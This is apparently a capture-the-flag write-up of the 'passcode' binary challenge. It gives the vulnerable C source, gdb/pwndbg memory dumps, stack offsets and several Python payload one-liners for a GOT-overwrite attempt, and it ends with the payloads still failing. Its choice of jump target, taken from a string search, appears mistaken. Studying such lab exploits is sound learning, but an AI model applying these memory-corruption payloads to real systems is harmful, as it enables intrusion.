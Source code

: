 So as usual first thing is I looked at the code supplied 

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==123456 && passcode2==13371337){
                printf("Login OK!\n");
                setregid(getegid(), getegid());
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.1 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

I looked at the comment `// ha! mommy told me that 32bit is vulnerable to bruteforcing :)` and tried to make since of it since I already had the password.
I decided to ignore it and thought it was a red herring.

First thing I tried was to just run it with the inputs as given to me (I knew it wouldn't work but thought it would foolish to not try it)
```
passcode@ubuntu:~$ ./passcode
Toddler's Secure Login System 1.1 beta.
enter you name : O
Welcome O!
enter passcode1 : 123456
enter passcode2 : 13371337
Segmentation fault (core dumped)
```

Next I tried to dig deeper into the code and understood that it was not writing the input to the address of passcode1 & passcode2 but addressed their values as memory addresses.
```c
        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);
```

So now I wanted to see where I could edit them and maybe write the values that I want them to contain.
The only place I had an input was in the `welcome` function. It was also the obvious place since there was no way it was there for no reason.

I thought that maybe I could overwrite the passcodes using the `name` buffer in the `welcome` function. but I could only overwrite `passcode1` and `passcode2` was out of range.

| var       | addr       | distance from &name |
| --------- | ---------- | ------------------- |
| passcode1 | 0xff81d158 | 96                  |
| passcode2 | 0xff81d15c | 100                 |
| name      | 0xff81d0f8 | 0                   |

I wanted to see if I could really overwrite `passcode1` so I ran the program in gdb with `name` set to `b'A' * 100`

```bash
pwndbg> x/4x $ebp - 0x10
0xffd27788:     0x41414141      0xd008ff00      0x0804c000      0xffd27874
```


I knew that I could overwrite `passcode1`. Now the only question was what should I put in it?
At first I thought putting the address of `passcode2` but then I won't be able to edit `passcode1`.
Then I thought about editing the code to maybe skip the `cmp` so I tested if I could edit that memory chunk using GDB

```bash
 0x8049000  0x804a000 r-xp     1000   1000 passcode
```

I could only read and execute.

I thought about editing the return address but there were two problems with that:
1. I would have to ruin the stack canary and this would stop the program
2. the function did not return if the login failed, it would just run `exit(0)`.

I tested if all the bytes of name are overridden because I thought that maybe I could use name to make the passcodes somehow be equal to that.
I saw that after inputting all of the passcodes and right before the `cmp` I still had 4 bytes of the name untouched.

```bash
pwndbg> x/s 0xff949d68
0xff949d68:     "Hell"
```

But it is also noticeable that the address changed meaning it does not keep the same memory addresses each time so that was not a real option since I did not know in advance the addresses of the variables.
To validate this I ran the program again in GDB and searched for the address of name again.

| run | name address |
| --- | ------------ |
| #1  | 0xff81d0f8   |
| #2  | 0xff949d68   |
| #3  | 0xffdb7208   |

Now I was really stuck and had to figure out another way to know what to put in `passcode1`.
Since I was stuck I started building a mind map to work with a more organized chart of ideas.
You can view the map using [xmind](https://xmind.com) and view the map of this CTF -> [passcode](./Mind%20Maps/passcode.xmind). 
*I recommend viewing this map only if you are interested in the different ideas I had at this point.*

One of the ideas was to inject lines of code. To know if there was a way to do this I opened up pwngdb again and searched for the permissions of the code segment.
```bash
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
     Start        End Perm     Size Offset File (set vmmap_prefer_relpaths on)
 0x8048000  0x8049000 r--p     1000      0 passcode
 0x8049000  0x804a000 r-xp     1000   1000 passcode
 0x804a000  0x804b000 r--p     1000   2000 passcode
 0x804b000  0x804c000 r--p     1000   2000 passcode
 0x804c000  0x804d000 rw-p     1000   3000 passcode
```
The last memory place is editable. I only had to see what this place points at.
but then I could see that it's not the code segment but it is actually the data segment so I went to see what global variables I had that might be saved in the data segment.

In the data segment there is something called the GOT (Global Offset Table). This contains the reference to the location of functions like `scanf`, `printf` and `fflush`. My idea was to change the reference table to point at the inner block of the if statement.

So first I will give `name` 96 chars of random placeholders and then `4 bytes` of the printf GOT reference addr. Then I can put a reference to the inner block of the if statement in the scanf of `passcode1`.
```bash
pwndbg> search "setregid"
Searching for byte: b'setregid'
passcode        0x8048364 'setregid'
libc.so.6       0xf7d2f7d6 'setregid'
```

| name                     | address   |
| ------------------------ | --------- |
| GOT printf reference     | 0x804c010 |
| Inner If statement block | 0x8048364 |
**Now all that was left to do was to build the payload and run!**

Getting decimal view of the addresses
```python
In [1]: int(0x804c010)
Out[1]: 134529040

In [2]: int(0x8048364)
Out[2]: 134513508
```

I had a problem with the payload that I was messing with for a few hours in total and I could not figure out why it wasn't getting the input to passcode1. passcode1 did have the correct address in it and it did point to the correct place but for some reason it was not accepting the input for the `printf` reference...

The payloads I have tried:
```bash
r < <(python3 -c "import sys; sys.stdout.buffer.write(b'A' * 96 + b'\x10\xc0\x04\x08' + b'\n' + b'\x64\x83\x04\x08')")

r < <(python3 -c "import sys; sys.stdout.buffer.write(b'A' * 96 + b'\x10\xc0\x04\x08\n\x64\x83\x04\x08\n')")

r < <(python3 -c "import sys; sys.stdout.buffer.write(b'A' * 96 + b'\x10\xc0\x04\x08\x64\x83\x04\x08')")

r < <(python3 -c "import sys; sys.stdout.buffer.write(b'A' * 96 + b'\x10\xc0\x04\x08\x64\x83\x04\x08\n')")
```

results for all of the payloads above
```bash
pwndbg> x/x $ebp - 0x10
0xffefdd48:     0x0804c010
pwndbg> x/x 0x0804c010
0x804c010 <printf@got.plt>:     0xf7d91a90
```
